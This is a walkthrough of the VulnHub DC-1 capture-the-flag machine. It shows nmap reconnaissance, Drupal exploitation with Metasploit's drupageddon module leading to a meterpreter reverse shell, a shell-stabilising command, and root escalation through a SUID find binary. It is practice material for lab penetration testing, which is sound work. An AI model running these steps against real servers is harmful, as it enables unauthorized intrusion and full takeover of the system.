

<h1>DC: 1</h1>

Today, we'll be looking at the DC-1 machine on vulnhub.

You can download the machine [here](https://www.vulnhub.com/entry/dc-1,292/).

Let's scan the machine with nmap.
```
┌──(root㉿kali)-[~]
└─# nmap -sS -A -p- 192.168.56.103
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-26 14:50 EET
Nmap scan report for 192.168.56.103
Host is up (0.00015s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4d659e6774c227a961660678b42488f (DSA)
|   2048 1182fe534edc5b327f446482757dd0a0 (RSA)
|_  256 3daa985c87afea84b823688db9055fd8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-generator: Drupal 7 (http://drupal.org)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35846/udp   status
|   100024  1          43348/tcp   status
|   100024  1          45635/tcp6  status
|_  100024  1          60640/udp6  status
43348/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:B8:A0:32 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.15 ms 192.168.56.103

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.51 seconds
```
The machine is running: http, ssh and rcpbind.

Browsing the machine on port 80, we can see it's running Drupal.
You can read the great article [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal) about enumerating Drupal.
I downloaded the tool mentioned in the article **droopescan** and used it on the machine.


```droopescan scan drupal -u http://192.168.56.103```


I didn't find anything useful from the scan.

After some time, I searched for drupal using searchsploit and found a sql injection vulnerability.



Let's fire up metasploit.

I used this exploit: **exploit/multi/http/drupal_drupageddon**

Then set the options.

```set rhosts <TARGET IP>```

```set lhost <YOUR IP>```

We got a meterpreter session.


You can use the command ``shell`` to open bash shell from the meterpreter session.

You can also use these two commands to make your shell more stable.

```python -c 'import pty;pty.spawn("/bin/bash")'```

```export TERM=xterm```


Let's move to **tmp** and use linpeas for local enumeration.

In the suid section, you can see that we can run the command **find** with permissions.


Let's search for it on [gtfobins](https://gtfobins.github.io/).


We can use this command to get a root shell.

We got are now root!


